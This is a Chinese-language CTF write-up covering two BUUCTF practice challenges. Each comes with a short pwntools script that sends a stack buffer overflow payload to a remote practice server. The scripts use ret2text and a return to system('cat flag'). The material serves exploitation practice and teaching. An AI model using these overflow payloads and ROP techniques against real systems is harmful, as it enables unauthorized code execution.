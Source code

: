 # buu刷题记录（41-60题）

## 41 picoctf_2018_buffer overflow 1

***ret2text***

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29931)
def dbg():
    gdb.attach(p)
    pause()

payload = b'b'*0x28+b'b'*0x4+p32(0x80485CB)
p.sendline(payload)
p.interactive()
```

## 42 jarvisoj_test_your_memory

***ret2text***

别看题上那些有的没的，有个溢出点，有个`system`,还有`cat flag`字符串，直接构造rop

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27254)
def dbg():
    gdb.attach(p)
    pause()

sys = 0x80485C9
flag_addr = 0x80487E0
payload = b'b'*0x13+b'b'*0x4+p32(sys)+p32(flag_addr)
p.sendline(payload)
p.interactive()
```

